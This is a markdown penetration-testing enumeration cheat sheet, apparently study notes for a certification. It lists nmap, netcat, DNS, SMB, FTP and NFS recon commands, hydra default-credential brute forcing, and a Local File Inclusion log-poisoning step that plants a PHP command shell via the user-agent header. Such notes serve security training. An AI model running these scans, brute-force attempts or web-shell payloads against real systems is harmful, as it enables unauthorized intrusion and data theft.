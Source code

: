 # Enumeration Quick Reference 
## Checklist 
- [ ] Recon 
- [ ] (If given a range): what hosts are on the network
- [ ] Open well known ports (0-1023)
- [ ] What are these ports used for (banner grab) 
- [ ] Open high ports (12024-65535) 
- [ ] Operating system 
- [ ] FTP or SMB anon log in 
- [ ] Exploitable services versions (searchsploit, github, google) 
- [ ] Web enum (see checklist below) 
- [ ] Brute force any services / log in pages   

[Enumeration Mind Map](https://github.com/theonlykernel/enumeration/wiki)     

## Recon   
### OSINT   
[OSINT Tools](https://www.osinttechniques.com/osint-tools.html)  <- List of OSINT tools for any occassion   
[The Harvester](https://github.com/laramies/theharvester)    <- gathers emails, names, subdomains, IPs and URLs      
[Recon-ng](https://github.com/lanmaster53/recon-ng)  <- Recon framework
[hunter.io](https://hunter.io/)       <- find email addresses for a company    

### DNS Look Up 
whois, nslookup, dig, host <-manual tools   
Dierce, DNSenum, DNSrecon <-automated tools  

    nslookup -type=any <DOMAIN>   
    host -t axfr -l <DOMAIN> <DNSSERVER>   
    dig -t mx <DOMAIN>  
    dig -t any <DOMAIN>
    
## Network Enum:  
    for x in {1 .. 254};do (ping -c 1 l.l.l.$x | grep "bytes from" &); done | cut -d " "    
    nmap -sn 172.16.0.0/24 

## Host enum 
**Identify os, services/ports/versions. Save results to text files. **   

    autorecon 127.0.0.1  
    nmap -A -T 4 -vv 127.0.0.1
    nmap -sV -p- --min-rate 200 -vv 127.0.0.1  

    nc -nvzw1 192.168.53.120 1-65535 2>&1 | grep open       

## Service Enum   

nmap scripts: /usr/share/nmap/scripts   
nmap --script <name>    --script-help 
	
**Port 21: FTP**
[Enumerating ftp](https://book.hacktricks.xyz/pentesting/pentesting-ftp)   
	
	anon log in: ftp / no password	or 	Anonymous: asdfasdf           
	nmap -sV -Pn -vv -p 21 --script=ftp-bounce,ftp-libopie,ftp-proftpd-backdoor,ftp-vsftpd-backdoor,ftp-vuln-cve2010-4221     
    hydra -C ftp/usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt -u 127.0.0.1 ftp    
	
**Port 25: SMTP**   
	
	smtp-user-enum -M VRF -u <user.txt> -t 127.0.0.1   
	nmap --script=smtp-commands,smtp-enum-users,smtp-vuln-cve2010-4344,smtp-vuln-cve2011-1720,smtp-vuln-cve2011-1764 -p 25 127.0.0.1
	
**Port 139: SMB** 
check for unauthenticated login, enum with smbmap 
	
    smbclient -L <IP>
    rpcclient -U "" <IP>
    smbclient -U <HOST> -L <IP>
    /usr/bin/smbclient \\\\<IP>\\share <HOST>  
	
**Port 2049: NFS**  
	[Pentesting NFS](https://book.hacktricks.xyz/pentesting/nfs-service-pentesting)  
	[No root squash](http://fullyautolinux.blogspot.com/2015/11/nfs-norootsquash-and-suid-basic-nfs.html)
	
    showmount -e 127.0.0.1
    mkdir /mnt/share   
    sudo mount -t nfs -o v2 127.0.0.1/share /mnt/share -o nolock 
	
## Web Enum 
- [ ] Scan for sub directories and pages   
- [ ] Log in pages - guess default creds, admin:admin, admin:password   
- [ ] File upload (what types of files are accepted?, what checks?)   
- [ ] Intercept HTTP requests with Burp   	

	Reference: [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings)    
    [Wappanalyzer](https://addons.mozilla.org/en-US/firefox/addon/wappalyzer/), [Foxy Proxy](https://addons.mozilla.org/en-US/firefox/addon/foxyproxy-standard/) and [user agent switcher](https://addons.mozilla.org/en-US/firefox/addon/uaswitcher/) Firefox extensions  
**Scan for sub directories and pages** 	
    nmap http scripts 
	
    nikto -h http://127.0.0.1:80/ 
	
    dirb http://127.0.0.1/   (default word list: common.txt)   

**Login pages** 
	Default creds - admin: admin, admin:password, service specific default creds   
	Register a new user  
	Brute force log in  
	SQL injection  
	
Local File Include  
[Local File Inclusion](http://resources.infosecinstitute.com/local-file-inclusion-code-execution/#gref)   
[Guide to LFI](http://www.securityidiots.com/Web-Pentest/LFI/guide-to-lfi.html)    
	
	
	/etc/passwd, etc.
	can you include a remote file?
	?test=php://filter/convert.base64-encode/resource=/filepath  base64 encode /decode  
Log Poisoning 
	open: /log/apache2/access.log 
	send payload as user agent string: <?php system($_GET['cmd']); ?>    
	/log/apache2/access.log&cmd=id    

	
[SQL Injection Cheatsheet](https://github.com/codingo/OSCP-2/blob/master/Documents/SQL%20Injection%20Cheatsheet.md) 
	
Local File Inclusion 
 
	
	
	
	  
Web vulnerabilities to gain access to the system - paper 
https://www.exploit-db.com/papers/13017/  
Bypassing File Upload Restrictions 
http://www.securityidiots.com/Web-Pentest/hacking-website-by-shell-uploading.html  
Basic SQLi 
http://www.securityidiots.com/Web-Pentest/SQL-Injection/Part-1-Basic-of-SQL-for-SQLi.html http://www.securityidiots.com/Web-Pentest/SQL-Injection/Part-2-Basic-of-SQL-for-SQLi.html http://www.securityidiots.com/Web-Pentest/SQL-Injection/Part-3-Basic-of-SQL-for-SQLi.html http://www.sqlinjection.net/login/
